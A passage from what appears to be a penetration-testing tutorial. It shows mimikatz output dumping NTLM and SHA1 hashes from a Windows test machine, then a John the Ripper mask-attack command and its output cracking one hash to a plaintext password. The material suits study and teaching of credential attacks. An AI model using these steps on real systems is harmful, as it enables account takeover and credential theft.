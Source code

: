 ```
    48          credman :

    49  Authentication Id : 0 ; 74052 (00000000:00012144)
    50  Session           : Service from 0
    51  User Name         : sshd_server
    52  Domain            : MSEDGEWIN10
    53  Logon Server      : MSEDGEWIN10
    54  Logon Time        : 5/31/2019 1:01:04 AM
    55  SID               : S-1-5-21-3859058339-3768143778-240673529-1003
    56          msv :
    57           [00000003] Primary
    58           * Username : sshd_server
    59           * Domain   : MSEDGEWIN10
    60           * NTLM     : 8d0a16cfc061c3359db455d00ec27035
    61           * SHA1     : 94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
    62          tspkg :
    63          wdigest :
    64           * Username : sshd_server
    65           * Domain   : MSEDGEWIN10
    66           * Password : (null)
    67          kerberos :
    68           * Username : sshd_server
    69           * Domain   : MSEDGEWIN10
    70           * Password : (null)
    71          ssp :
    72          credman :

mimikatz #
```

### Brute-Forcing the NTLM Hash

[Most passwords](tags/#password%20analysis) are between six and eight characters, usually consisting of six letters and ending in two digits.

After installing John the Ripper on a Raspberry Pi 3B+, the password ("nchfyr56") was guessed in just over five hours. Considering most passwords are eight characters long, mask attacks with a Raspberry Pi are surprisingly practical for brute-forcing NTLM hashes.

```
$ john -mask=?l?l?l?l?l?l?d?d --format=NT /root/Desktop/hash

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 32/32])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status

nchfyr56         (?)

1g 0:05:19:24 DONE (2018-06-22 16:36) 0.000052g/s 1389Kp/s 1389Kc/s 1389KC/s achfyr56..zuhfyr56
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
